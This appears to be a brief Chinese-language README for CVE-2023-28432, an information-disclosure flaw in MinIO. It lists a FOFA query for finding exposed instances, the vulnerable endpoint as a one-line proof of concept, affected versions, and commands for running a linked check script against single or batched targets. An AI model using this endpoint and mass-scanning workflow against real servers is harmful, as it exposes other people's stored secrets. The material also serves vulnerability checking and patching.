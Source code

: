 # MinIO云存储信息泄露漏洞 CVE-2023-28432
## 资产收集
fofa：`app="minio"`
![](./img/logo.png)
## POC
```
POST /minio/bootstrap/v1/verify HTTP/1.1
```
## 影响版本
MinIO 2019-12-17T23-16-33Z <= MinIO < 2023-03-20T20-16-18Z
## 检测脚本
[minio_unauthcheck.py](./minio_unauthcheck.py)  
单个：`python3  minio_unauthcheck.py -u`  
批量：`python3 minio_unauthcheck.py -f url.txt`